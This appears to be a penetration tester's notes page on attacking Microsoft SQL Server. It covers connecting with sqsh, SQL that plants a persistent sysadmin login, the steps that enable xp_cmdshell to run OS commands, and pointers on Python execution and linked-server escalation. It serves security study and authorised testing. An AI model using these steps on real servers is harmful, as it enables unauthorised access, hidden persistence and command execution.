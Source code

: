 # MS-SQL Databases

MS-SQL or SQL Server is Microsoft's offering of an SQL Database. The syntax and model is quite similar to standard SQL with the benefit of being able to hook directly into offerings such as Windows Active Directory and interface with the Windows operating system. It is some of these features however that can allow us to get a strong foothold on a device.

There's a lot of fantastic tools and resources designed specifically for dealing with MS-SQL:

* [PowerUpSQL ](https://github.com/NetSPI/PowerUpSQL)- An enumeration and privilege escalation tool for MS-SQL in Powershell
* [msdat ](https://github.com/quentinhardy/msdat)- Microsoft SQL Database attacking tool
* [NetSPI Blog](https://blog.netspi.com/)
* [MS-SQL Injection Cheat Sheet](http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)

## Connecting

There are multiple ways to interface with an MS-SQL server.  If on Linux then I'd recommend using [sqsh](https://sourceforge.net/projects/sqsh/), as it's simple and allows you to quickly create commands:

```bash
sqsh -S 192.168.0.6 -U sa
```

However, I'd strongly recommend setting up a Windows VM and using [SQL Management Server](https://docs.microsoft.com/en-us/sql/ssms/download-sql-server-management-studio-ssms?view=sql-server-2017), as it allows you to quickly create scripts for enumeration and offers a graphical view for enumerating the database which can make extracting information much quicker.

## User Creation

For creating a sysadmin user to enable easy access to the database post-exploitation, we'll need to create a login and associated user for SQL authentication. We can then assign this user sysadmin privileges.

```sql
CREATE LOGIN booj WITH PASSWORD = 'B00j123!'
CREATE USER booj for LOGIN booj
EXEC sp_addsrvrolemember @loginame = N'booj', @rolename = N'sysadmin'
```

## xp\_cmdshell

It's easy to execute commands on the host operating system as the service account using xp\_cmdshell.  By default this is unfortunately disabled, and to re-enable and use it the SQL accounts requires sysadmin level privileges.

```sql
1> exec sp_configure 'show advanced options', 1
2> go
Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install. 
(return status = 0)
1> reconfigure
2> go
1> exec sp_configure 'xp_cmdshell', 1
2> go
Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
(return status = 0)
1> reconfigure
2> go
1> exec master..xp_cmdshell 'whoami' 
2> go
```

## Python Code Execution

In some cases python code execution is available as part of an SQL transaction.  This obviously allows arbitary code execution, but the python interpreter is not always as locked down as xp\_cmdshell, which may allow further exploitation and privilege escalation.

#### References

[The Power of Python and SQL Server 2017](https://www.red-gate.com/simple-talk/sql/sql-development/power-python-sql-server-2017/)

## Server Links

The best reference for exploiting server links is [SQL Server – Link… Link… Link… and Shell: How to Hack Database Links in SQL Server!](https://blog.netspi.com/how-to-hack-database-links-in-sql-server/) They're not hard to pull off and can allow you to escalate your permissions quite easily. However, do note that you should absolutely use rpc\_out if it's enabled.

Since OpenQuery can only satisfy user queries, stored procedures or user creation is not possible and makes your escalation path much more difficult.

